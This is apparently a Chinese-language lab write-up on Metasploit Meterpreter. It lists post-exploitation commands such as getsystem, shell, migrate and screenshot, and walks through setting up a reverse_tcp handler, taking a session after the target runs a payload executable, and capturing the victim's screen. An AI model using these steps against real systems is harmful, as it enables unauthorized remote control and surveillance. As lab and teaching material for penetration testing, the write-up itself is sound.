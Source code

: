 ```yaml
---
title: metasploit之meterpreter命令
date: 2021-12-21 12:22:46
tags: 
    - msf
    - meterpreter 
---
```


## metasploit之meterpreter命令

### 目的: 了解meterpreter命令

### 原理:  
`ps`         查询当前目标机所有进程
`getpid`       获取当前会话进程
`getuid`       当前用户所用的权限，所在用户组
`sysinfo`      取系统信息
`getsystem`    提升至system最高权限
`shell`      进入cmdshell命令模式
`pwd`       查看当前所在位置
`cat`        查看文本文件
`ipconfig`     查看网络配置信息
`migrate pid`   迁移pid
`screenshot`    截取当前用户屏幕保存到本地

### 过程：

打开终端，运行msf，`use exploit/multi/handler`选择exploit，`set payload windows/meterpreter/reverse_tcp`设置payload，`set LHOST 192.168.1.2`设置监听主机，`set LPORT 11101`设置端口

![](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/1.PNG)

输入`exploit -j`运行脚本，且在后台监听


靶机双击桌面运行xx.exe，返回kali，已经取得会话

![](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/2.PNG)

![](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/3.PNG)

敲击回车，返回msf，执行`sessions`，查看会话，再执行`sessions 1`,进入会话

![](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/4.PNG)

执行`ps`查看进程

![](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/5.PNG)

`getuid` 查看权限

`pwd` 查看当前路径

`screentshot`截图

![](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/6.PNG)

`background`会话转入后台

![](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/7.PNG)

新建终端，进入/root目录下，查看截图

![](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/8.PNG)

实验结束